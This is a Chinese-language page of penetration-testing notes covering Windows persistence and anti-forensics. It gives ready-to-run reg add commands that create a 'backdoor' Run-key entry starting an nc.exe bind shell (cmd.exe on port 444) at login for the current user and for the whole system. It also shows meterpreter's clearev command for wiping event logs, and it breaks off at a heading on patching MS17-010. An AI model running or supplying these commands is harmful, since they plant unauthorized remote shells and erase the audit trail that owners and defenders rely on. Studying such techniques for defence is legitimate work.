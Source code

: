 ### 通过修改注册表的启动项

#### 理论

> * 注册表就是系统配置文件
> 
> * 系统启动时，加载注册表配置
> 
> * 注册表里有一项“启动项”，规定了系统启动时的动作

#### 修改当前用户注册表启动项

```batch
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /f
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /f
```

#### 修改系统的注册表启动项

```batch
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /f
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor
reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /f
```

# 清除Windows日志

## 理论

> * 渗透测试不要清除日志
> * 攻防要看情况决定是否清除日志
> * 只有真实攻击才会清除日志
> * 控制面板》管理工具》事件查看器》Windows日志

## 在meterpreter下清除Windows日志

```bash
clearev # event事件，也就是日志
# exit 退出cmd
# exit 退出bash、zsh
# quit 退出msf
# back 返回msf上级菜单
# ctrl + C 从cmdshell返回meterpreter
```

# 修复ms17-010

## 查看系统版本
